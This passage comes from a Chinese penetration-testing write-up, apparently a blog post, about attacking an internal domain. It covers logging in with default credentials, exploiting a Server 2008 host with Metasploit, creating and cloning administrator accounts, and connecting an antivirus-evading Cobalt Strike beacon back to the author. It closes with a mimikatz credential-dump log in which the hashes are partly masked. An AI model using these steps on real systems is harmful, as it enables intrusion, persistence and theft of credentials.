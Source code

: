 之后扫描内网 HTTP 服务的时候发现了一个投影仪系统，弱口令撸了进去：admin:admin

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaa6L7QiagWUFRGM9TI61vfCv7dhPabIuatpcrEia0SypMcQkslDxTWY2g/640?wx_fmt=png)

由于搞站的时候比较晚了，搞到这我就去睡觉了。  

**内网域渗透第二天**

  

就在昨晚睡着，做了一个梦，梦到我上课迟到了，然后回到座位上看到我作业上一个 Metasploit 的 Shell，然后就醒了！

睡醒后的，我再一次拿起 MSF 打了一遍 08 的机器，结果成功了？卧槽这个梦牛逼啊！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiajdCzfydyIRZCV9d7DL1Jrfzj0Ae73ZHBxf3RwpZ7QbjW38ricXFyAyw/640?wx_fmt=png)

这尼玛渗透有时候就需要天时地利人和！

通过 Ping google 发现 192.168.30.116 能出网：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaWnrXOR7maSOtxVwSzibfQdfc78akZGhaPF9Yuib0B9Qv8wGOC07WLiaZw/640?wx_fmt=png)

然后创建个管理员用户 asp****:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaUVW2ILkuWoPoKM7hrFS2RoK2fjA2MibLh8yGOIZPicawPEpRczal3ib0Q/640?wx_fmt=png)

登录到他远程桌面：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJiaVgAtuWibZUlg40enpDOVHWT0F38fQPMvIpBskhBIlBlTmrfB1Kb9GFKl8pViafnXaGEQ0ErPdy0Q/640?wx_fmt=png)

随后克隆用户 adminisrtrator：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LJiaVgAtuWibZUlg40enpDOVHESmN25h79meIh7cVdJibrtsg5PmYk9ONNnXPZhEE9IBkgMMYduePrvQ/640?wx_fmt=png)

随后做了免杀让他上线到我 CS：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaB9nt1SytY8XAYGlnIicPiaqJsNfMbviayQWk1zxibdSyGjFQL8fAx2uBkA/640?wx_fmt=png)

之后抓到了一个域用户的 hash：  

```
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 438866 bytes
[+] received output:

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : ****DSM$
Domain            : ****A
Logon Server      : (null)
Logon Time        : 2021/1/27 上午 12:22:29
SID               : S-1-5-20
  msv :  
   [00000003] Primary
   * Username : ****ADSM$
   * Domain   : ****A
   * NTLM     : 0a4b2******************************
   * SHA1     : 623e30**************************
```
